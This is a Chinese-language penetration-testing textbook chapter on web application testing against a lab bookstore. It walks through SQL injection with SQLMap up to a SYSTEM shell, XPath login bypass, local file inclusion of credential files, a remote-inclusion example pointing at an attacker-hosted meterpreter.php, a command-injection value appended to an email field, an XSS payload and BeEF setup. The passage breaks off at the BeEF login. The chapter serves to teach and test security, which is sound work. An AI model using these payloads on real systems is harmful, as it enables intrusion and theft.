## 第十四章. Web 应用程序测试

虽然自动化扫描工具非常擅长发现 Web 应用程序中的已知漏洞，但许多客户会构建自定义 Web 应用程序。的确，商业产品可以自动化对自定义 Web 应用程序中用户输入字段的攻击，但在发现这些应用程序中的安全问题时，没有什么能替代使用代理的优秀渗透测试员。

像所有软件一样，当输入未正确清理时，Web 应用程序可能会出现问题。例如，当应用程序根据特定用户输入从数据库中提取数据时，应用程序可能会期望输入特定内容，如用户名和密码。如果用户输入特殊内容，试图创建额外的数据库查询，那么他或她可能能够从数据库中窃取数据、绕过身份验证，甚至在底层系统上执行命令。

在本章中，我们将通过使用安装在 Windows 7 目标上的示例 Web 应用程序，来查看如何发现 Web 应用程序中的一些常见漏洞：这是一个简单的书店，具有 Web 应用程序中经常发现的几个安全问题。（安装说明请参见安装附加软件）

## 使用 Burp Proxy

我们可以使用代理捕获浏览器与 Web 应用程序之间的请求和响应，这样我们就能准确看到传输的数据。Kali Linux 附带了 Burp Suite 的免费版本，这是一款用于 Web 应用程序测试的平台，其中包括代理功能。Burp 还包含其他有用的组件，如 Burp Spider，可以爬取 Web 应用程序的内容和功能，以及 Burp Repeater，它允许你操作并重新发送请求到服务器。现在，我们将专注于 Burp Proxy 选项卡。

要在 Kali Linux 中启动 Burp Suite，请在 Kali 图形界面的左上角点击“应用程序”，然后依次点击 **Kali Linux** ▸ **Web 应用程序** ▸ **Web 应用程序模糊测试工具** ▸ **burpsuite**，如图 14-1 所示。

图 14-1. 在 Kali 中启动 Burp Suite

点击 Proxy 选项卡，如图 14-2 所示。默认情况下，应该选择“拦截开启”按钮，以便 Burp Suite 拦截并捕获所有来自配置为使用 Burp 作为 Web 流量代理的 Web 浏览器的请求。此设置将允许我们查看，甚至修改发送到服务器之前的 Web 请求的详细信息。

图 14-2. Burp Proxy 界面

现在，我们需要告诉 Kali Linux 中的浏览器通过 Burp Suite 来代理 Web 流量。

1.  打开 Iceweasel 浏览器，依次点击 **编辑** ▸ **首选项** ▸ **高级**，并选择 **网络** 选项卡。

1.  点击连接右侧的 **设置**。

1.  在图 14-3 所示的连接设置对话框中，选择**手动代理配置**，并输入 IP 地址**`127.0.0.1`**和端口**`8080`**。这告诉 Iceweasel 通过本地主机的 8080 端口代理流量，这是 Burp Proxy 的默认端口。

图 14-3. 在 Iceweasel 中设置代理

为确保 Iceweasel 将所有流量通过 Burp Suite 代理，请在 Windows 7 目标机上浏览网址 bookservice：*[`192.168.20.12/bookservice`](http://192.168.20.12/bookservice)*。

连接在浏览器中应该会看起来停滞不前，浏览器和 Burp Suite 应该会亮起，当 bookservice 站点的主页的`HTTP GET`请求被 Burp Proxy 捕获时，如图 14-4 所示。

图 14-4. 捕获的`HTTP GET`请求

我们可以看到请求服务器 bookservice 网页的`HTTP GET`请求的详细信息。

如我们稍后将看到的，我们可以在将请求发送到服务器之前进行更改，但现在我们先通过点击**转发**按钮将请求（以及任何后续请求）转发出去。返回浏览器后，我们看到服务器已向我们发送了 bookservice 站点的主页，如图 14-5 所示。

图 14-5. Bookservice 站点

接下来让我们尝试注册一个账户（图 14-6）。点击页面左上角的**登录**，然后通过代理将请求转发到服务器。同样，点击**新用户**进入注册页面，并将请求转发到服务器。

图 14-6. 注册新账户

输入用户名、密码和电子邮件地址，然后通过点击**开始**提交请求。请求应该会在 Burp Proxy 中被捕获，如图 14-7 所示。

图 14-7. 捕获的请求

除了查看原始请求外，它读起来有点不友好，你可以点击 Burp Suite 请求窗口顶部的 Params 标签，以更易读的格式显示请求参数，如图 14-8 所示。

图 14-8. 请求参数

例如，新显示的界面显示了用户字段*georgia*，密码字段*password*，以及电子邮件字段*georgia@bulbsecurity.com*。

你可以直接在代理中更改这些字段。例如，如果你在将请求转发到服务器之前，将*georgia*的密码更改为*password1*，服务器将把用户*georgia*的密码设置为*password1*，因为服务器从未看到浏览器请求原始密码*password*的请求。

代理允许你查看任何请求到服务器的详细信息。如果在任何时候你不需要代理流量，点击**拦截开启**将其切换为**拦截关闭**，并允许流量直接通过服务器，无需用户交互。如果你想捕获某个特定请求，可以将按钮重新打开。

## SQL 注入

许多 web 应用将数据存储在后台的 SQL 数据库中。例如，在我们的网络渗透测试中，我们遇到了一个 SQL 数据库，当时我们通过 Windows XP 目标机器上的 XAMPP 安装中的 phpMyAdmin 找到了一个开放的 MySQL 数据库，在利用开放的 phpMyAdmin 一章中提到。然后我们使用 SQL 查询将一个简单的 PHP 命令 Shell 写入 Web 服务器。

我们通常无法直接在网站的后台数据库上执行 SQL 查询。然而，如果开发人员在与数据库交互时未能对用户输入进行消毒处理，你可能会发现可以执行*SQL 注入攻击*来操控发送到数据库的查询。成功的 SQL 注入攻击可以从数据库读取数据、修改数据、关闭或销毁数据库，甚至在某些情况下在底层操作系统上执行命令（这尤其强大，因为数据库服务器通常以特权用户身份运行）。

查找 SQL 注入问题的自然地方是登录页面。许多 web 应用将用户数据存储在数据库中，因此我们可以使用 SQL 查询根据用户提供的用户名和密码拉取正确的用户信息。当开发人员未消毒用户输入时，我们可以构造 SQL 查询来攻击数据库。以下是一个攻击者可能利用的可注入 SQL 语句示例：

```
SELECT id FROM users WHERE  username='$username' AND password='$password';
```

如果攻击者提供了用户名*' OR '1'='1*，而用户密码为*' OR '1'='1*，会发生什么？SQL 语句会变成：

```
SELECT username FROM users WHERE username='' or '1'='1' AND password='' or '1'='1'
```

因为*OR '1'='1'*始终为真，这个`SELECT`语句现在会返回用户表中的第一个用户名，无论用户名和密码是什么。

如我们将在 XPath 注入中看到的那样，应用程序使用了 XPath，这是一种用于 XML 文档的查询语言，它是通过与 XML 文件而非数据库进行身份验证，尽管注入过程相似。然而，我们的应用程序确实使用了 SQL 数据库来存储商店中可用书籍的记录，当我们在主页上选择一本书时，其详细信息是从 MS SQL 后端数据库中提取的。例如，点击网站上第一本书《*Don’t Make Me Think*》的**更多详情**链接，请求的 URL 为：

```
http://192.168.20.12/bookservice/bookdetail.aspx?**id=1**
```

本书的详细信息是基于从数据库查询返回的记录（ID 为 `1`）的结果填写的。

### 测试 SQL 注入漏洞

典型的 SQL 注入漏洞首次测试方法是使用单引号闭合 SQL 查询。如果存在 SQL 注入漏洞，添加该引号应该会导致应用程序抛出 SQL 错误，因为查询在底层代码中已经闭合，额外的单引号会导致 SQL 语法错误。该错误将告诉我们，我们可以使用 `id` 参数向网站的数据库注入 SQL 查询。

让我们尝试通过发送带有 `id` 参数为 *1’* 的查询来验证此情况，如下所示。

```
http://192.168.20.12/bookservice/bookdetail.aspx?id=1'
```

正如预期的那样，应用程序返回了一个错误页面，指出我们的 SQL 语法不正确，如图 14-9 所示。

图 14-9. 应用程序识别到 SQL 错误。

特别需要注意的是，SQL 查询中的“字符串后缺少引号”这一信息。

### 注意

并非所有容易受到 SQL 注入攻击的应用程序都会详细显示错误信息。事实上，有一类称为盲 SQL 注入漏洞，其中即使存在注入缺陷，错误信息也不会显示出来。

### 利用 SQL 注入漏洞

现在我们知道该网站存在 SQL 注入漏洞，我们可以利用这个漏洞对数据库执行开发者未曾预料的其他查询。例如，我们可以通过以下查询来查找第一个数据库的名称：

```
http://192.168.20.12/bookservice/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(0))--
```

查询抛出了一个错误信息，*转换失败，无法将 nvarchar 值 ‘BookApp’ 转换为 int 数据类型*，这告诉我们第一个数据库的名称是 BookApp，如图 14-10 所示。

图 14-10. 显示数据库名称的错误信息

### 使用 SQLMap

我们还可以使用工具自动生成 SQL 查询，通过 SQL 注入在站点上执行各种任务。我们只需要一个注入点，其它的交给工具处理。例如，示例 14-1 展示了当我们向 Kali 中的 SQLMap 工具提供一个潜在可注入的 URL 时，SQLMap 会测试 SQL 注入漏洞并执行注入查询。

示例 14-1. 使用 SQLMap 转储数据库

```
root@kali:~# sqlmap -u❶ **"http://192.168.20.12/bookservice/bookdetail.aspx?id=2" --dump**❷
--*snip*--
[21:18:10] [INFO] GET parameter 'id' is 'Microsoft SQL Server/Sybase stacked queries' injectable
--*snip*--
Database: BookApp
Table: dbo.BOOKMASTER
[9 entries]
+--------+---------------+-------+-------+-------------------------------------
| BOOKID | ISBN          | PRICE | PAGES | PUBNAME | BOOKNAME                                                                                             | FILENAME | AUTHNAME | DESCRIPTION

                                     |
+--------+---------------+-------+-------+-------------------------------------
| 1      | 9780470412343 | 11.33 | 140   | Que; 1st edition (October 23, 2000) | Do not Make
Me Think A Common Sense Approach to Web Usability                                        |
4189W8B2NXL.jpg | Steve Krug and Roger Black | All of the tips, techniques, and examples
presented revolve around users being able to surf merrily through a well-designed site
with minimal cognitive strain. Readers will quickly come to agree with many of the books
assumptions, such as We do not read pages--we scan them and We do not figure out how things
work--we muddle through. Coming to grips with such hard facts sets the stage for Web design
that then produces topnotch sites. |
--*snip*--                      |
```

使用`-u`选项❶指定要测试的 URL。`--dump`选项❷会转储数据库的内容——在这个例子中，就是书籍的详细信息。

我们还可以使用 SQLMap 尝试获取底层系统的命令 Shell 访问权限。MS SQL 数据库包含一个名为`xp_cmdshell`的存储过程，它可以为我们提供命令 Shell 访问权限，但通常是禁用的。幸运的是，SQLMap 会尝试重新启用它。示例 14-2 展示了我们如何使用 SQLMap 在站点的底层 Windows 7 目标系统上获得命令 Shell。

示例 14-2. 通过 SQL 注入访问`xp_cmdshell`

```
root@kali:~# sqlmap -u "http://192.168.20.12/bookservice/bookdetail.aspx?id=2" --os-shell
--*snip*--
xp_cmdshell extended procedure does not seem to be available. Do you want sqlmap to try to re-enable it? [Y/n] **Y**
--*snip*--
os-shell> **whoami**
do you want to retrieve the command standard output? [Y/n/a] **Y**
command standard output:    'nt authority\system'
```

如示例 14-2 所示，我们可以获得一个以*System*身份运行的 Shell，而无需猜测数据库的凭证。

### 注意

MS SQL 数据库本身没有在端口上监听，因此我们无法直接访问它。与第六章中的 Windows XP 系统不同，这个 Web 服务器没有 phpMyAdmin，因此我们无法通过其它方式访问数据库。托管网站中的 SQL 注入问题让我们获得了完整的系统访问权限。

## XPath 注入

如前所述，本书服务应用程序使用 XML 认证，其中 XML 通过 Xpath 进行查询。我们可以使用*XPath 注入*攻击 XML。尽管其语法与 SQL 不同，但注入过程是相似的。

例如，尝试在登录页面的用户名和密码字段中分别输入单引号（**`'`**）。你应该会收到一个类似于图 14-11 所示的错误。

图 14-11. 登录时 XML 错误

如图 14-11 所示的错误消息，我们再次遇到注入问题，因为我们的语法出现了错误。由于我们处于登录页面，Xpath 的典型注入策略是尝试绕过身份验证，通过攻击 Xpath 查询逻辑访问经过身份验证的应用程序部分。

例如，如错误详情所示，登录查询会抓取提供的用户名和密码，然后将提供的值与 XML 文件中的凭据进行比较。我们能否创建一个查询来绕过有效凭据的需求？在登录时输入一组虚拟凭据，并使用 Burp Proxy 捕获请求，如图 14-12 所示。

现在，将捕获请求中的`txtUser`和`txtPass`参数更改为该值。

```
' or '1'='1
```

图 14-12. 捕获的登录请求

这告诉登录 Xpath 查询查找用户名和密码字段为空或*1=1*的用户账户。因为*1=1*始终为真，所以这个查询的逻辑是返回用户名为空或存在的用户——密码也是如此。因此，通过这种注入方法，我们可以让应用程序让我们作为身份验证文件中的第一个用户登录。如图 14-13 所示，我们已作为用户*Mike*登录。

图 14-13. 通过 Xpath 注入绕过身份验证

## 本地文件包含

另一个常见的 Web 应用漏洞是*本地文件包含*，即能够通过 Web 应用从应用程序或其他我们不应通过 Web 应用访问的文件系统读取文件。我们在第八章中看到过一个例子，Windows XP 目标上的 Zervit Web 服务器允许我们从目标下载文件，比如 SAM 和 SYSTEM 注册表文件的备份。

我们的 bookservice 应用也存在本地文件包含漏洞。作为用户*Mike*，转到**Profile** ▸ **View Newsletters**。点击列表中的第一个新闻通讯查看文件内容，如图 14-14 所示。

图 14-14. 查看新闻通讯

现在重新发送请求，并使用 Burp Proxy 捕获它，如图 14-15 所示。

图 14-15. 捕获的新闻通讯请求

点击**Params**标签，并注意参数*c:\inetpub\wwwroot\Book\NewsLetter\Mike@Mike.com\Web Hacking Review.txt*。路径*c:\inetpub\wwwroot\Book\NewsLetter\Mike*表明新闻通讯功能通过它们的绝对路径从本地文件系统中提取新闻通讯。看起来在*Newsletter*文件夹中有一个名为*Mike@Mike.com*的文件夹。也许每个订阅新闻通讯的用户都有这样的文件夹。

另外，我们似乎发现应用程序实际上位于路径*c:\inetpub\wwwroot\Book*，正如新闻订阅请求中所示，而不是我们从 URL 中可能预期的*c:\inetpub\wwwroot\bookservice*。我们注意到这一点，因为稍后它可能会派上用场。

如果我们将文件名参数更改为 Web 应用程序中的另一个文件，会怎样呢？我们能否访问应用程序的完整源代码？例如，将文件更改为以下内容，然后将请求转发到服务器。

```
C:\inetpub\wwwroot\Book\Search.aspx
```

如你所见，*Search.aspx*页面的源代码在新闻订阅框中显示出来，如图 14-16 所示。

拥有 Web 应用程序完整的服务器端源代码使我们能够进行全面的源代码审查，寻找潜在问题。

但或许我们还可以访问更敏感的数据。例如，我们知道用户名和密码存储在一个 XML 文件中。或许我们可以请求这个文件。我们不知道它的名称，但通过对常见 XML 认证场景中常见文件名的几次猜测，我们可以找到文件名*AuthInfo.xml*。在 Burp Proxy 中捕获新闻订阅请求，并将请求的文件更改为此处显示的文件。

图 14-16. 本地文件包含漏洞

```
C:\inetpub\wwwroot\Book\AuthInfo.xml
```

如图 14-17 所示，我们现在可以访问明文的用户名和密码。现在我们知道为什么之前的 Xpath 注入让我们以用户*Mike*身份登录：*Mike*是文件中的第一个用户。

这是使用代理工具非常有用的一个典型例子。一个只有浏览器的用户只能点击他或她能看到的文件，即展示的新闻订阅内容。另一方面，借助代理工具，我们能够看到请求从文件系统中请求特定文件。通过在 Burp Proxy 中手动更改请求中的文件名，我们能够看到其他敏感文件。毫无疑问，开发人员没有考虑到用户可以请求任何文件的可能性，因此未曾限制用户通过新闻订阅能够访问的文件。

图 14-17. 认证信息

更糟糕的是，我们不仅仅局限于来自 Web 应用程序的文件。我们可以加载 IIS_USER 具有读取权限的任何文件。例如，如果你在 C 盘创建一个名为*secret.txt*的文件，你可以通过新闻订阅功能加载它。只需在 Burp Suite 中的请求中替换你想要的文件。如果我们能够找到上传文件到 Web 应用程序的方法，我们甚至可以利用 LFI 漏洞在 Web 服务器上执行恶意代码。

## 远程文件包含

远程文件包含（RFI）漏洞允许攻击者加载并执行托管在其他地方的恶意脚本，在脆弱的服务器上执行。在 第八章中，我们使用 XAMPP 中的开放 phpMyAdmin 界面写了一个简单的 PHP Shell，最终将 Meterpreter 的 PHP 版本写入了 Web 服务器。虽然我们这里没有上传文件到服务器，但攻击方式相似。如果我们能欺骗脆弱的服务器执行一个远程脚本，就能在底层系统上运行命令。

我们的网站没有远程文件包含漏洞，但这里展示了一个简单的脆弱 PHP 代码作为示例。

```
<?php
include($_GET['file']);
?>
```

攻击者可以将恶意的 PHP 脚本（例如我们在 第八章 中使用的 *meterpreter.php* 脚本）托管在自己的 Web 服务器上，并请求带有文件参数的页面，参数设置为 *http://<attacker_ip>/meterpreter.php*。RFI 漏洞将导致 *meterpreter.php* 被 Web 服务器执行，即使它托管在其他地方。当然，我们的示例应用程序是 ASP.net，而非 PHP，但 Msfvenom 可以为此类应用程序创建 ASPX 格式的有效载荷。

## 命令执行

如前所述，*Newsletters* 文件夹中包含一个名为 *Mike@Mike.com* 的文件夹。从逻辑上讲，这表明该网站可能包含类似的文件夹，存放所有已注册接收简报的用户的电子邮件地址。应用程序的某些部分必须在用户注册或订阅简报时创建这些文件夹。该应用程序的代码可能正在运行命令，在文件系统中创建这些文件夹。也许，正因为缺乏输入验证，我们可以运行开发者本来不打算让我们运行的其他命令。

如 图 14-18 所示，网页应用的右下角包含一个注册简报的表单。我们怀疑，当我们输入电子邮件地址时，系统会在 *newsletters* 文件夹中为该电子邮件地址创建一个文件夹。

我们猜测，电子邮件地址输入被传递给一个系统命令，用于在 *newsletters* 文件夹中创建一个目录。如果开发者没有正确清理用户输入，我们可能能够通过使用 & 符号来运行额外的命令。

图 14-18. 简报注册

我们将执行一个命令，并将其输出发送到应用程序的 *C:\inetpub\wwwroot\Book\* 目录下的一个文件，然后直接访问文件，查看命令的输出。按照这里所示的方式，在 Windows 7 目标机上运行 `ipconfig` 命令，将系统命令（如 `ipconfig`）的输出通过管道传送到 *Book* 目录中的文件 *test.txt*。

```
georgia@bulbsecurity.com & ipconfig > C:\inetpub\wwwroot\Book\test.txt
```

当我们浏览到 *[`192.168.20.12/bookservice/test.txt`](http://192.168.20.12/bookservice/test.txt)* 时，我们会看到 `ipconfig` 命令的输出，如 图 14-19 所示。

图 14-19. 命令执行输出

我们将仅限于 Internet 信息服务（IIS）用户的权限。对我们来说不幸的是，Windows 7 系统上的 Microsoft IIS 应用程序以单独的帐户运行，而没有系统用户的完整权限：这对开发人员来说是一个更好的安全场景，但对我们来说则更具挑战性。

虽然我们无法完全访问系统，但凭借我们已有的访问权限，我们仍然能够收集大量关于系统的信息。例如，我们可以使用`dir`命令查找有趣的文件，或者使用命令`netsh advfirewall firewall show rule name=all`查看 Windows 防火墙中的规则。

由于我们正在使用 Windows 系统，因此无法通过命令行使用`wget`拉取交互式 shell，但我们可以使用其他多种方法来实现。在第八章中，我们使用 TFTP 将 shell 从我们的 Kali 系统传输到 Windows XP 目标系统。Windows 7 默认没有安装 TFTP 客户端，但在 Windows 7 中，我们有一个强大的脚本语言叫做*Powershell*，我们可以利用它执行下载和执行文件等任务。

### 注意

本书的范围不包括对 Powershell 的研究，但它在最新的 Windows 操作系统的后期利用中非常有用。可以参考这里的资料：*[`www.darkoperator.com/powershellbasics/`](http://www.darkoperator.com/powershellbasics/)*。

## 跨站脚本攻击（XSS）

也许最常见且最具争议的 Web 应用程序安全漏洞就是跨站脚本攻击（XSS）。当此类漏洞存在时，攻击者可以将恶意脚本注入到一个本无害的网站中，以便在用户的浏览器中执行。

XSS 攻击通常分为两类：存储型和反射型。*存储型 XSS 攻击*会存储在服务器上，并在用户访问存储了脚本的页面时执行。用户论坛、评论区以及其他用户可以保存输入并显示给其他用户的地方，都是这类攻击的理想目标。*反射型 XSS 攻击*并不存储在服务器上，而是通过发送包含 XSS 攻击本身的请求来创建。攻击发生在用户输入被包含在服务器响应中时，例如在错误信息或搜索结果中。

反射型 XSS 攻击依赖于用户发送一个包含 XSS 攻击的请求，因此攻击中很可能也会包含某种社会工程学的成分。事实上，XSS 的存在可能实际上会增加社会工程学攻击的成功率，因为你可以构造一个部分来自真实网站的 URL——一个用户知道并信任的网站——并利用 XSS，例如将用户重定向到恶意页面。像本章讨论的其他攻击一样，XSS 攻击依赖于缺乏用户输入清理，这使得我们能够创建并运行恶意脚本。

### 检查反射型 XSS 漏洞

我们应该检查所有用户输入是否存在 XSS 漏洞。我们发现应用程序在搜索功能中存在反射型 XSS 漏洞。尝试在“Books Search”框中搜索标题*xss*，如图 14-20 所示。

如图 14-21 所示，搜索结果页面会将原始用户输入作为结果的一部分打印出来。如果用户输入没有经过适当的清理，那么我们就可以在这里利用 XSS 漏洞。

图 14-20. 搜索功能图 14-21. 搜索结果页面

常见的第一个 XSS 测试是尝试运行一个 JavaScript 警告框。以下代码将尝试弹出一个显示文本*xss*的 JavaScript 警告框。如果用户输入没有经过适当的过滤，这段脚本将作为搜索结果页面的一部分执行。

```
<script>alert('xss');</script>
```

在某些情况下，用户的浏览器会自动阻止明显的 XSS 攻击，例如这个例子，而 Iceweasel 就是其中之一。切换到你的 Windows 7 目标系统，使用 Internet Explorer。正如图 14-22 所示，弹出警告脚本执行。

图 14-22. XSS 弹出窗口

在确认存在反射型 XSS 后，我们可以尝试利用它攻击用户。常见的攻击包括窃取会话 Cookie 并发送到攻击者控制的网站，或者嵌入一个框架（将 HTML 页面分割成不同部分的方式），诱使用户输入登录凭据。用户可能会认为这个框架是原始页面的一部分，然后输入他的凭据，这些凭据随后被发送到攻击者的网站。

### 使用浏览器利用框架（BeEF）进行 XSS 攻击

XSS 问题往往被忽视。一个仅显示“XSS”的警告框能造成多大伤害呢？一个好的工具可以帮助利用 XSS 漏洞并揭示其真正的攻击潜力，那就是浏览器利用框架（BeEF）。通过使用 BeEF，我们可以通过诱使用户访问我们的 BeEF 服务器，或者更好地在存在 XSS 漏洞的情况下，使用 BeEF 的 JavaScript 钩子作为有效载荷来“钩住”浏览器。

现在切换到目录*/usr/share/beef-xss*，并运行**`./beef`**，如示例 14-3 所示。这将启动 BeEF 服务器，包括 Web 界面和攻击钩子。

示例 14-3. 启动 BeEF

```
root@kali:~# cd /usr/share/beef-xss/
root@kali:/usr/share/beef-xss# ./beef
[11:53:26][*] Bind socket [imapeudora1] listening on [0.0.0.0:2000].
[11:53:26][*] Browser Exploitation Framework (BeEF) 0.4.4.5-alpha
--*snip*--
[11:53:27][+] running on network interface: 192.168.20.9
[11:53:27]    |   Hook URL: http://192.168.20.9:3000/hook.js
[11:53:27]    |_  UI URL:   http://192.168.20.9:3000/ui/panel
[11:53:27][*] RESTful API key: 1c3e8f2c8edd075d09156ee0080fa540a707facf
[11:53:27][*] HTTP Proxy: http://127.0.0.1:6789
[11:53:27][*] BeEF server started (press control+c to stop)
```

现在，在 Kali 系统中，浏览到*[`192.168.20.9:3000/ui/panel`](http://192.168.20.9:3000/ui/panel)*以访问 BeEF 的 Web 界面。你应该看到一个登录页面，如图 14-23 所示。

图 14-23. BeEF 登录页面

BeEF 的默认凭据是*beef:beef*。在登录对话框中输入这些凭据后，你将看到网页界面（图 14-24）。

